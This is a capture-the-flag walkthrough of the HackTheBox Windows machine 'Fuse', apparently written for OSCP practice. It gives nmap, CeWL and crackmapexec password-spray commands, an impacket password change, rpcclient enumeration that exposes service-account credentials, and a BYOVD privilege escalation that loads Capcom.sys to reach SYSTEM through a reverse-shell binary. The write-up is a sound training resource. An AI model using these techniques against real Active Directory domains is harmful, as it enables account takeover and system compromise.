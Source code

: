 ```yaml
---
title: "HackTheBox: Fuse - OSCP Prep"
categories:
  - CTF Writeups
toc: true
---
```


This is a 'medium' rated HTB Windows challenge featuring an interesting PE technqiue, Bring Your Own Vulnerable Driver (BYOVD).

# Reconnaissance

## Nmap

`nmap -p- -sV -sC -T4 10.10.10.193 -Pn -n -o full_thorough.log
`
```
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-10-14 16:25:12Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp   open  ���7�U       Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49675/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc        Microsoft Windows RPC
49680/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-14T16:26:02
|_  start_date: 2023-10-14T16:19:11
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2023-10-14T09:26:05-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h33m02s, deviation: 4h02m32s, median: 13m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

From this scan we can add `fabricorp.local` and `fuse.fabricorp.local` to our hosts file.

### SMB
Let's try see if guest/null authentication is enabled.
![1](/assets/images/Fuse/Pasted image 20231014172549.png)
It looks like credentials `:` don't give an error. Let's see if we can enumerate any information from this. ![[/assets/images/Fuse/Pasted image 20231014172649.png]]
No luck!
### Web

The webserver on port 80 is hosting a PaperCut Print Logging service. From this we can discover a list of usernames.

![[/assets/images/Fuse/Pasted image 20231014172739.png]]
![[/assets/images/Fuse/Pasted image 20231014172814.png]]![[/assets/images/Fuse/Pasted image 20231014172823.png]]![[/assets/images/Fuse/Pasted image 20231014172832.png]]


```
sthompson
bhult
administrator
tlavel
pmerton
bnielson
```

We can check if any of these users are AS-REPRoastable or have the AD attribute `Don't require Kerberos pre-authentication` set.

![[/assets/images/Fuse/Pasted image 20231014173153.png]]
Let's try generate a wordlist and do a password spray attack. To generate the wordlist I'll use CEWL.

`cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm -d 5 -m 5 -x 12 --with-numbers | tee pwds.txt`

Let's password spray with:

`crackmapexec smb fabricorp.local -u users.txt -p pwds.txt`

There was a lot of interesting results for password `Fabricorp01`
![[/assets/images/Fuse/Pasted image 20231014180419.png]]
We can change passwords using the `impacket-smbpasswd` tool!
![[/assets/images/Fuse/Pasted image 20231014181036.png]]

After changing the password we can login to RPCClient and use the `enumdomusers` command to dump all domain users.

![[/assets/images/Fuse/Pasted image 20231023130616.png]]
We can see there are two printing related user accounts. Let's use the `enumprinters` to see if there is any domain joined printers.
![[/assets/images/Fuse/Pasted image 20231023145417.png]]
Interesting. In the description of the printer we can see credentials `$fab@s3Rv1ce$1`. Let's password spray with this now.
![[/assets/images/Fuse/Pasted image 20231023145524.png]]
![[/assets/images/Fuse/Pasted image 20231023145540.png]]
It looks like `$fab@s3Rv1ce$1` works as a password for both `svc-print` & `svc-scan`, and also `svc-print` can WinRM onto the box.

# Privilege Escalation

Investigating the permissions of the `svc-print` user reveals we have the ability to load drivers with the `SeLoadDriverPrivilege`. 

![[/assets/images/Fuse/Pasted image 20231024122149.png]]

We can perhaps use a BYOVD technique. First, I'll use the [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver) technqiue to load the `Capcom.sys` vulnerable driver.

![[/assets/images/Fuse/Pasted image 20231024122134.png]]

We can create a reverse-shell binary and use the CapcomExploit from [here](https://github.com/tandasat/ExploitCapcom) to escalate privileges to `nt authority\system`.